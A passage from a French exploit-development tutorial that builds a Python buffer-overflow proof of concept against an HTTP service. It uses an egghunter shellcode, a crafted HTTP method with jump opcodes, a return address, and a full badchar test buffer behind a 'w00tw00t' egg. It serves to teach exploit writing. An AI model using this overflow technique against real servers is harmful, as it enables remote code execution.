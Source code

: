 Maintenant que le *egghunter* fonctionne, on peut mettre en oeuvre notre shellcode.

Il faut se rappeler que le second buffer est dans une page mémoire différente allouée par le tas (*heap*). On ne connait pas les bad char de cette page mémoire et on a vu précédemment que les mauvais caractères ne sont pas universels a une application.

On met à jour la preuve de concept avec les tous les caractères hexadécimal en les positionnant dans le second *buffer* :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 253

  httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"  # xor ecx, ecx; test ecx, ecx; je 0x17 

  egghunter = (b"\x90\x90\x90\x90\x90\x90\x90\x90" # NOP sled
             b"\x66\x81\xca\xff\x0f\x42\x52\xb8"
             b"\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e"
             b"\x3c\x05\x5a\x74\xeb\xb8\x77\x30"
             b"\x30\x74\x89\xd7\xaf\x75\xe6\xaf"
             b"\x75\xe3\xff\xe7")

  inputBuffer = b"\x41" * (size - len(egghunter))
  inputBuffer+= pack("<L", (0x418674))                  # 0x00418674 - pop eax; ret
  httpEndRequest = b"\r\n\r\n"

  badchars = (
    b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
    b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
    b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
    b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
    b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
    b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
    b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
    b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
    b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
    b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
    b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
    b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
    b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
    b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
    b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
    b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
    b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
    b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
    b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff") 

  shellcode = b"w00tw00t" + badchars  +  b"\x44" * (400 - len(badchars))

  buf = httpMethod + egghunter + inputBuffer +  httpEndRequest + shellcode

  print("Sending buffer")
  [...]
```
